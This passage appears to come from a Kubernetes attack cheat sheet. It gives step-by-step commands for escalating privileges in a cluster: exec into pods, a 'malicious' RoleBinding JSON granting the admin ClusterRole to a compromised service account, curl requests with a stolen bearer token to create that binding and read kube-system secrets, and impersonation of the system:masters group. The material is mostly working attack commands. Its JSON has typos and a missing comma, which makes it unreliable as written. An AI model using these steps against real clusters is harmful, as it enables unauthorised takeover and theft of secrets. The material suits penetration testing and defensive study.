 
Then `kubectl apply -f malicious-pod.yaml`

### Privilege to Use Pods/Exec

```powershell
kubectl exec -it <POD NAME> -n <PODS NAMESPACE> –- sh
```

### Privilege to Get/Patch Rolebindings

The purpose of this JSON file is to bind the admin "CluserRole" to the compromised service account. 
Create a malicious RoleBinging.json file.

```powershell
{
    "apiVersion": "rbac.authorization.k8s.io/v1",
    "kind": "RoleBinding",
    "metadata": {
        "name": "malicious-rolebinding",
        "namespcaes": "default"
    },
    "roleRef": {
        "apiGroup": "*",
        "kind": "ClusterRole",
        "name": "admin"
    },
    "subjects": [
        {
            "kind": "ServiceAccount",
            "name": "sa-comp"
            "namespace": "default"
        }
    ]
}
```

```powershell
curl -k -v -X POST -H "Authorization: Bearer <JWT TOKEN>" -H "Content-Type: application/json" https://<master_ip>:<port>/apis/rbac.authorization.k8s.io/v1/namespaces/default/rolebindings -d @malicious-RoleBinging.json
curl -k -v -X POST -H "Authorization: Bearer <COMPROMISED JWT TOKEN>" -H "Content-Type: application/json" https://<master_ip>:<port>/api/v1/namespaces/kube-system/secret
```

### Impersonating a Privileged Account

```powershell
curl -k -v -XGET -H "Authorization: Bearer <JWT TOKEN (of the impersonator)>" -H "Impersonate-Group: system:masters" -H "Impersonate-User: null" -H "Accept: application/json" https://<master_ip>:<port>/api/v1/namespaces/kube-system/secrets/
```

## Privileged Service Account Token
